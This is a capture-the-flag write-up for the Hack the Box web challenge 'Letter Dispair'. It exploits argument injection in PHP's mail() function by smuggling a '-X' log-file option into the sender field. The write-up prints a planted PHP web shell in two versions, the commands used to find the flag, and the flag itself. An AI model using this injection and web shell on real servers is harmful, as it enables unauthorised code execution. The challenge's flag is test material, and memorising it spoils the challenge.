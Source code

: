 # Writeup "Letter Dispair"

## Quick Info

<table>
   <tr><td><b> site       </b></td><td> Hack the Box                                                      </td></tr>
   <tr><td><b> url        </b></td><td> https://app.hackthebox.com/challenges/letter-dispair              </td></tr>
   <tr><td><b> discussion </b></td><td> https://forum.hackthebox.com/t/official-letter-dispair-discussion </td></tr>
   <tr><td><b> type       </b></td><td> challenge/web                                                     </td></tr>
   <tr><td><b> difficulty </b></td><td> easy                                                              </td></tr>
   <tr><td><b> startdate  </b></td><td> 2022-07-31                                                        </td></tr>
   <tr><td><b> enddate    </b></td><td> 2022-08-03                                                        </td></tr>
</table>

## Description

> A high-profile political individual was a victim of a spear-phishing attack. The email came from a legitimate government entity in a nation we don't have jurisdiction. However, we have traced the originating mail to a government webserver. Further enumeration revealed an open directory index containing a PHP mailer script we think was used to send the email. We need access to the server to read the logs and find out the actual perpetrator. Can you help?

## Description

We receive an IP and port to a server. When we access the server using a web browser, we see a directory listing with three files:

<p align="center">
   <img src="includes/letter-dispair-01.png" />
</p>

`mailer.php` displays a form for sending e-mails:

<p align="center">
   <img src="includes/letter-dispair-02.png" />
</p>

`mailer.zip` contains a copy of `mailer.php`, which allows us to analyse the source code.

A quick Google search tells us that PHP's `mail()`[^1] function allows remote code execution if the fifth parameter can be influenced by the user[^2]. Checking the source code reveals that the code is vulnerable. Whatever we put in the "From Email" field will be used as a parameter.

Following an article describing how to exploit the vulnerability[^3], we enter the following string in the "From Email" field to create a publicly-accessible PHP file whose contents we can manipulate:

```
relations@moi.gov.htb -X/var/www/html/rce.php
```

Our payload will be a makeshift PHP shell, which we enter into the "Subject" field. The following line would be sufficient:

```
<?php system($_GET["cmd"]); ?>
```

However, this is not very comfortable. We therefore improve the code to include a text field for entering commands and which formats the output:

```
<hr />
<form action="rce.php" method="get">
  <input type="text" 
    id="cmd" 
    name="cmd" 
    value='<?php print($_GET["cmd"]); ?>' 
    autofocus 
    onfocus="var temp_value=this.value; 
      this.value=''; 
      this.value=temp_value" />
</form>
<hr />
<pre>
  <?php system($_GET["cmd"]); ?>
</pre>
<hr />
```

After hitting the "Start Delivery" button, we reload the directory listing in order to verify that the file was created correctly. If no file is visible, we have to try different paths. In this case we are lucky on the first try:

<p align="center">
   <img src="includes/letter-dispair-03.png" />
</p>

We can now open our PHP shell and start looking for the flag. Using the following commands, we are successful:

``` bash
ls -la
whoami
find / -name *flag*
cat /flag.txt
```

<p align="center">
   <img src="includes/letter-dispair-04.png" />
</p>

```
HTB{4_l3tt3r_0f_h0p3_c0nqu3r1ng_d1sp4ir!}
```

### Sources

[^1]: https://www.php.net/manual/de/function.mail.php
[^2]: https://blog.sonarsource.com/why-mail-is-dangerous-in-php/
[^3]: https://www.saotn.org/exploit-phps-mail-get-remote-code-execution
